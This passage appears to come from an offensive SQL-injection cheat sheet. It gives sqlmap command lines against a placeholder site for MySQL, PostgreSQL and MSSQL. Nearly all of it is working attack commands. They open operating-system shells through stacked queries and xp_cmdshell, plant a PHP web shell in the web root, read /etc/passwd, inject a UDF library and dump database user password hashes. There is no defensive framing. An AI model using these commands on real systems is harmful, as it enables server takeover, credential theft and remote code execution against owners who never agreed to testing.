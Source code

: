 #### Stacked Queries
```bash
# Stacked queries for command execution
sqlmap -u "http://target.com/admin.php?id=1" --technique=S --os-shell

# Stacked queries for file operations
sqlmap -u "http://target.com/admin.php?id=1" --technique=S --file-write="/tmp/shell.php" --file-dest="/var/www/html/shell.php"
```

### Database-Specific Advanced Techniques

#### MySQL Advanced Exploitation
```bash
# MySQL file operations
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://target.com/page.php?id=1" --file-write="/tmp/shell.php" --file-dest="/var/www/html/shell.php"

# MySQL UDF exploitation
sqlmap -u "http://target.com/page.php?id=1" --udf-inject --shared-lib="/tmp/lib_mysqludf_sys.so"

# MySQL privilege escalation
sqlmap -u "http://target.com/page.php?id=1" --sql-query="SELECT user,password FROM mysql.user"
```

#### PostgreSQL Advanced Exploitation
```bash
# PostgreSQL command execution
sqlmap -u "http://target.com/page.php?id=1" --dbms=postgresql --os-shell

# PostgreSQL file operations
sqlmap -u "http://target.com/page.php?id=1" --dbms=postgresql --file-read="/etc/passwd"

# PostgreSQL large object exploitation
sqlmap -u "http://target.com/page.php?id=1" --dbms=postgresql --sql-query="SELECT lo_import('/etc/passwd')"
```

#### MSSQL Advanced Exploitation
```bash
# MSSQL xp_cmdshell
sqlmap -u "http://target.com/page.php?id=1" --dbms=mssql --os-shell

# MSSQL linked servers
sqlmap -u "http://target.com/page.php?id=1" --dbms=mssql --sql-query="SELECT * FROM OPENROWSET('SQLOLEDB','server=target;uid=sa;pwd=password','SELECT @@version')"

# MSSQL bulk insert
sqlmap -u "http://target.com/page.php?id=1" --dbms=mssql --file-write="/tmp/data.txt" --file-dest="C:\\temp\\data.txt"
```
